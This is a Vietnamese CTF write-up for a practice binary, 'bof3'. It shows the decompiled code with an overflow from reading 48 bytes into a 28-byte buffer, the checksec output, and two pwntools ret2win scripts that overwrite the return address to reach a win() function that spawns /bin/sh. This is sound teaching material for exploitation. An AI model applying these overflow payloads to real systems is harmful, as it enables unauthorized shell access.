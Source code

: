 **1. Tìm lỗi**

Chạy thử file ta có:

![run.png](photo/run.png)

Dùng lệnh 'file' để kiểm tra:

```
bof3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a73678d6c03f7f579e303c1da19a5d663ef970bb, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta được

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  printf("> ");
  v5 = read(0, buf, 0x30uLL);
  if ( buf[v5 - 1] == 10 )
    buf[v5 - 1] = 0;
  return 0;
}
```

Đoạn mã khai báo một mảng buf có kích thước 28 byte và biến v5. Biến v5 được khởi tạo bằng 0.

Hàm read được gọi để đọc dữ liệu từ bàn phím và lưu trữ vào mảng buf. Tham số đầu tiên là số tham chiếu đến bàn phím (0), tham số thứ hai là mảng buf và tham số thứ ba là kích thước tối đa của dữ liệu được đọc (0x30uLL = 48 byte) nhưng biến buf được khai báo 28 byte -> Có lỗi bof

Nếu ký tự cuối cùng trong chuỗi được nhập là ký tự xuống dòng (10), nó sẽ được thay thế bằng ký tự NULL (0).

Ngoài ra còn kiến được hàm win như sau:

```
int win()
{
  return system("/bin/sh");
}
```

Hàm này chạy system cho phép điều khiển hệ thống.

**2. Ý tưởng**

Nhập tràn biến buf đến ret rồi đưa địa hàm win vào ret.

```
pwndbg> checksec
[*] '/mnt/d/CTF_Writeup/Train/bof3/bof3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Thấy được stack đang No canary found nên có thể khai thác theo ý tưởng trên.

**3. Khai thác**

```
   0x000000000040120b <+46>:    lea    rax,[rbp-0x20]
   0x000000000040120f <+50>:    mov    edx,0x30
   0x0000000000401214 <+55>:    mov    rsi,rax
   0x0000000000401217 <+58>:    mov    edi,0x0
   0x000000000040121c <+63>:    call   0x4010a0 <read@plt>
```

Biến buf đang ở cách rbp 0x20 nên biến buf cách ret 0x20 + 0x8. Vậy sẽ nhập (0x20 + 0x8) byte rác để đến ret.

Địa chỉ hàm win như sau:

```
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x401249 <win>
```

Ta có script như sau:

```
from pwn import *

r = process('./bof3')

win = 0x401249
payload = b'a'*(0x20 + 0x8) + p64(win)
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**

![fake.png](photo/fake.png)


**3.1 Khai thác lần 2**

Theo kinh nghiệm thì + thêm 5 cho địa chỉ hàm win sẽ được. Ta có script như sau:

```
from pwn import *

r = process('./bof3')

win = 0x401249
payload = b'a'*(0x20 + 0x8) + p64(win + 5)
r.sendafter(b'> ', payload)
r.interactive()
```

**4.1 Lấy flag lần 2**

![flag.png](photo/flag.png)
